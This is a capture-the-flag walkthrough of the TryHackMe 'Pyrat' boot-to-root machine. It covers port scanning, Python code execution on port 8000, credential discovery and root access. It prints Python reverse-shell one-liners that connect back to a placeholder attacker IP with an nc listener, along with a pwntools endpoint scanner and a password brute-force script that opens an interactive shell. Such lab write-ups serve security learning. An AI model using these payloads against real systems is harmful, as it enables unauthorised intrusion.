https://tryhackme.com/room/pyrat
Description:
Test your enumeration skills on this boot-to-root machine.

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

1. port scan
```bash
nmap -p- -sS -sV -T4 10.82.144.79
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=1/2%Time=6957FFA7%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20define
SF:d\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<string
SF:>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\x
SF:20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20i
SF:s\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20no
SF:t\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x2
SF:0cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sourc
SF:e\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1B
SF:,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x2
SF:0syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20s
SF:yntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20code
SF:\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"sou
SF:rce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(JavaR
SF:MI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n
SF:")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20b
SF:ytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20nu
SF:ll\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
2. Ok, so we have open port tcp on 8000
3. We have some tip here:
   
4. I connected using telnet to port 8000 on target machine.
   and tried some python reverse shell:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

it was not working, but I received some syntax error. Working payload is below:
I opened listener on 4444:
```bash
nc -nlvp 4444
```
and in my telnet connection runned command:
```python
a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("YOUR_IP",4444));f=s.fileno;c(["/bin/bash","-i"],stdin=f(),stdout=f(),stderr=f())
```
I have console as www-data user

in home we can see think and ubuntu users
I am always after login checking some interesting directories. This time first thing I found was mail in /var/mail/think file:

ok so what we know now:
think user (think@pyrat)
received mail from root@pyrat 
root will start some RAT (?) from think user repository
Ok, I went further searching for something useful, now I know that I should search for files owned by think:

Ok, looks like bingo - we have think user password!

        
here is user.txt flag:

we can login using think password via ssh without adding any keys - just password


we can use git show command to check what was added:

looks like this code is executing data we are sending to port 8000
```python
+
+def switch_case(client_socket, data):
+    if data == 'some_endpoint':
+        get_this_enpoint(client_socket)
+    else:
+        # Check socket is admin and downgrade if is not aprooved
+        uid = os.getuid()
+        if (uid == 0):
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e

```
now I need to search process (root mentioned in mail that he runned it)
I used below command to show tree with processes:
```bash
ps axjf

```

and bingo:

let's return to basics - to description of this room:
***A subsequent exploration yields valuable insights into the application's older version***
ok, time to check historical files in repository:


further description stands:
***Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.***

```python
from pwn import *

context.log_level = "error"

for ep in open("endpoints.txt"):
    ep = ep.strip()
    try:
        p = remote("10.82.144.79", 8000)
        p.sendline(ep)
        out = p.recv(timeout=1)
        print(f"[+] {ep} -> {out}")
        p.close()
    except:
        print(f"[-] {ep} -> no response")
```


ok we can see that admin endpoint wants Password
***exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords.***

now we need to try some password fuzzing:
```python
import socket
import sys

# Configuration
target_ip = "10.82.144.79"
target_port = 8000

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <passwords.txt>")
    sys.exit(1)

password_wordlist = sys.argv[1]

def try_password(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target_ip, target_port))

    # Step 1: admin
    s.sendall(b"admin\n")
    data = s.recv(1024).decode()

    if "Password:" not in data:
        s.close()
        return False

    # Step 2: password
    s.sendall(password.encode() + b"\n")
    data = s.recv(1024).decode()

    # Step 3: check success
    if "Welcome Admin" in data:
        print(f"[+] PASSWORD FOUND: {password}")

        # Step 4: shell
        s.sendall(b"shell\n")

        # Step 5: test shell
        s.sendall(b"id\n")
        out = s.recv(1024).decode()
        print(out)

        # Interactive shell
        while True:
            cmd = input("$ ")
            s.sendall(cmd.encode() + b"\n")
            print(s.recv(4096).decode())

        return True

    s.close()
    return False


def fuzz_passwords():
    with open(password_wordlist, "r", errors="ignore") as f:
        for password in f:
            password = password.strip()
            if not password:
                continue

            print(f"[-] Trying: {password}")
            if try_password(password):
                break


if __name__ == "__main__":
    fuzz_passwords()


```
trying some passwords:

```bash
# we need to connect 
nc 10.82.144.79 8000
admin
# Password: type password you found and run command shell
shell
```
we have final flag :)

TODO: for me - learning python...  to much AI generated code, anyway it works and I understand what it is doing, but I am not proud because of using AI to generate it...

